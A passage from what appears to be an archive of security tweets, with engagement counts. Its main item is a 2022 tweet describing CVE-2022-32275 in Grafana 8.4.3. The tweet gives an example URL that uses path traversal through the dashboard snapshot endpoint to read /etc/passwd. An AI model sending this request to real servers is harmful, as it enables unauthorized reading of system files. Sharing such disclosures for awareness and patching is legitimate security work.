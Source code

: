 <td><img src="pictures/ad0e550484bd79626576c21427d22244fa1325905b8a03d415b381f069ba9778.jpg" alt="ad0e550484bd79626576c21427d22244fa1325905b8a03d415b381f069ba9778.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1534105534793920512 _at 2022-06-07, 09:30:36_**
<blockquote>
CVE-2022-32275 Grafana 8.4.3 allows reading files via (for example) a /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd
</blockquote>

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>304</code></td>
<td>Favorites: <code>921</code></td>
</tr></table>

---
